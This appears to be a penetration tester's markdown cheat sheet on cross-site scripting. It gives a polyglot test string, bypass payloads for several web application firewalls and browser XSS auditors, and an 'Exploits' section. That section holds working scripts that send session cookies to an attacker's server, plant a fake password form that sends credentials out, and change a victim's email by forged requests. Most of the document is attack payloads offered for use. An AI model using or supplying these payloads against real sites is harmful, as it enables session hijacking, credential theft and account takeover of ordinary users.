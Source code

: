 # XSS

List of exploitable JS functions: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

List of XSS payloads: [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all)

Polyglot field test

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## WAF Bypass

### Google Chrome Payloads

#### Google XSS Audit Bypass

```
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

#### Chrome < v60 beta XSS-Auditor Bypass

```
<script src="data:,alert(1)%250A-->
```

#### Other Google Audit Bypass Payloads

```
<script>alert(1)</script
<script>alert(1)%0d%0a-->%09</script
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

### Safari

```
<script>location.href;'javascript:alert%281%29'</script>
```

### Kona WAF (Akamai) Bypass&#xD;

```
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

### Wordfence&#x20;

```
<meter onmouseover="alert(1)"
'">><div><meter onmouseover="alert(1)"</div>"
>><marquee loop=1 width=0 onfinish=alert(1)>
```

### Incapsula WAF

```
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
<img/src=q onerror='new Function`al\ert\`1\``'>
```



## Exploits

### Cookie Stealing

Create an instance of server listening on a public port. After sending the following payload to the target you will see a request to your server containing the session cookies

```
<script>
fetch('<server>', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

### Password Stealing

Create an instance of server listening on a public port. Send the following payload to create a fake form on the target server. When the victim types the password a request will be sent to your server containing the password

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('<server>',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

### CSRF

Use the following payload to send a request using AJAX to a page of the application. Can be used for instance to request  password reset for the user

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','<URL>',true);
req.send();
function handleResponse() {
    var target = new XMLHttpRequest();
    target .open('post', '/my-account/change-email', true);
    target .send(<body>)
};
</script>
```

